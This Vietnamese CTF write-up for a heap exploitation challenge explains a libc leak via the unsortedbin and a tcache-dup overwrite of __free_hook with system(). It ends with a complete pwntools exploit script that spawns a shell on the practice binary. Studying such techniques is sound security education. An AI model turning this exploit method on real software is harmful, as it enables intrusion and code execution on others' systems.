









# Heap_Exploit - Heap6

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn6_hoo_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.28.so, for GNU/Linux 3.2.0, BuildID[sha1]=2bab9b4759f0784ceabd4f99b1fe29307160a32b, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```
Ném file vào ida64-pro:



Ở đây ta có 5 options trong đó `createHeap()` sẽ cấp phát 1 size cố định là 0x80 cho mỗi index



Và ở `deleteHeap()` ta thấy ở đây chỉ free chunk chứ không set null



# 2. Khai thác

- Bước 1: Leak libc base

```
for i in range(9):
    create(i, b"\x00") 
for i in range(8):
    free(i)
show(7)
p.recvuntil(b"Data = ")
base = int.from_bytes(p.recv(6),"little") - 0x3B2CA0
print("Libc_base:", hex(base))
```
Vì ở đây sử dụng `libc.2.28.so` nên `Tcache` -> enable



Do tcache chỉ lưu trữ được 1 lượng chunk nhất định (ở đây sẽ là 7 chunk với size 0x80 thêm 0x10 metadata sẽ là 0x90)

Chúng ta tạo 9 chunk và free hết chúng đi để kiểm chứng:



Ở đây dù đã free 8 chunk nhưng chỉ 7 chunk xuất hiện ở tcache size 0x90 -> chunk còn lại sẽ trỏ đến `main_area + 96` tại unsortedbin



Mà hàm `showHeap()` lại không check xem chunk đã free hay chưa nên ta sẽ show chunk_7 leak được địa chỉ libc hay heap dễ dàng.

- Bước 2: Get shell

```
free_hook = base + 0x3B48E8
system = base + 0x41af0
print("\nFree_hook:   ", hex(free_hook))
print("System:      ", hex(system))
for i in range(7):
    create(i, b"\x00") 
create(0, b"\x00")
free(0)
free(0)
create(6,p64(free_hook))
create(1,b"/bin/sh\x00")
create(6,p64(system))
free(1)
```

Lợi dụng tcache_dup để ghi ghi `system()` vào `free_hook`

Trước tiên cứ fill hết 7 chunk trong `Tcache`

Không như những bài trước, bài này full giáp nên không ghi đè vào `atoi()` được



Cũng như không bị lỗi double free() nên không lợi dụng khi vào `malloc_hook` được

Nhìn vào `deleteHeap()` có hàm free data mà ta nhập vào từ trước:



Rồi ta free() chunk chứa `/bin/sh` để gọi `system` đã bị ghi vào `free_hook`.

# Get_shell




# Full code:

```
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("pwn6_hoo_patched")
libc = elf.libc

local = True 
if local:
    p = process("./pwn6_hoo_patched")
    #gdb.attach(p,'''''')
else:
    p = remote('', 1337)

elf = context.binary = ELF('./pwn6_hoo_patched', checksec=False)

def create(idx,data):
    p.sendafter(b">",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input data:",data)
def show(idx):
    p.sendafter(b">",b"2")
    p.sendafter(b"Index:",str(idx))
def edit(index,data):
    p.sendafter(b">",b"3")
    p.sendafter(b"Input index:",str(index))
    p.send(data)
def free(idx):
    p.sendafter(b">",b"4")
    p.sendafter(b"Input index:",str(idx))


##########################
# STEP_1: LEAK_LIBC_BASE #
##########################

for i in range(9):
    create(i, b"\x00") 
for i in range(8):
    free(i)
show(7)
p.recvuntil(b"Data = ")
base = int.from_bytes(p.recv(6),"little") - 0x3B2CA0
print("\nLibc_base:   ", hex(base))

show(6)
p.recvuntil(b"Data = ")
heap = int.from_bytes(p.recv(6),"little") - 0x530
print("\nHeap_base:   ", hex(heap))

##########################
# STEP_2: CALCULATE_ADDR #
##########################

free_hook = base + 0x3B48E8
system = base + 0x41af0
print("\nFree_hook:   ", hex(free_hook))
print("System:      ", hex(system))

#####################
# STEP_3: GET_SHELL #
#####################
for i in range(7):
    create(i, b"\x00") 
create(0, b"\x00")
free(0)
free(0)
create(6,p64(free_hook))
create(1,b"/bin/sh\x00")
create(6,p64(system))
free(1)

p.interactive()
```


